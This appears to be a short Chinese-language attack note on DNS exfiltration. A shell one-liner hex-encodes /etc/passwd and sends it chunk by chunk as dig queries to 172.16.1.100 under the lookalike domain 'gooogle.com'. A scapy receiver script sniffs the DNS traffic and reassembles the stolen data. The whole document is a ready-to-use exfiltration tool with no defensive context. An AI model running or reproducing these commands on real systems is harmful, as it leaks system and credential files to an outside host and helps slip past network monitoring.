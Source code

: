 DIG 发送端:

xxd -p -c 31 /etc/passwd | while read line; do dig @172.16.1.100 +short +tries=1 +time=1 $line.gooogle.com; done  
 

接收端dns_reciver.py:

```python
try:  
    from scapy.all import *  
except:  
    print("Scapy not found, please install scapy: pip install scapy")  
  
def process_packet(pkt):  
    if pkt.haslayer(DNS):  
        domain = pkt[DNS][DNSQR].qname.decode('utf-8')  
        root_domain = domain.split('.')[1]  
        if root_domain.startswith('gooogle'):  
            print(f'{bytearray.fromhex(domain[:-13]).decode("utf-8")}', flush=True, end='')  
  
sniff(iface="eth0", prn=process_packet)  

```
python3 dns_reciver.py